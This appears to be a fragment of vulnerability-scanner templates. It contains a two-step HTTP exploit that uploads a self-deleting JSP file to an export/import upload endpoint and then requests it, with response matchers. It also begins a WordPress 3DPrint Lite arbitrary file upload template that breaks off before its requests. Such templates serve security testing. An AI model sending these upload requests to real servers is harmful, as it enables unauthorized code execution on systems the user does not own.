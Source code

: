```
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFy3iNVBftjP6IOwo

------WebKitFormBoundaryFy3iNVBftjP6IOwo
Content-Disposition: form-data; name="file"; filename="{{randstr}}.jsp"
Content-Type: application/octet-stream

<%out.print(364536*876356);new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundaryFy3iNVBftjP6IOwo--

```

### Step - 2

```
GET /page/exportImport/fileTransfer/{{randstr}}.jsp HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. status_code_1 == 200
  2. contains(body_2, '319463310816') || status_code_2 == 200
- condition - and

---

# WordPress 3DPrint Lite \<1.9.1.5 - Arbitrary File Upload

## Description

- WordPress 3DPrint Lite plugin before 1.9.1.5 contains an arbitrary file upload vulnerability. The p3dlite_handle_upload AJAX action of the plugin does not have any authorization and does not check the uploaded file. An attacker can upload arbitrary files to the server, which in turn can be used to make the application execute file content as code, As a result, an attacker can possibly obtain sensitive information, modify data, and/or execute unauthorized operations.

- severity - high
- tags - wpscan,edb,wordpress,wp,wp-plugin,fileupload,intrusive,3dprint

## Requests

### Step - 1

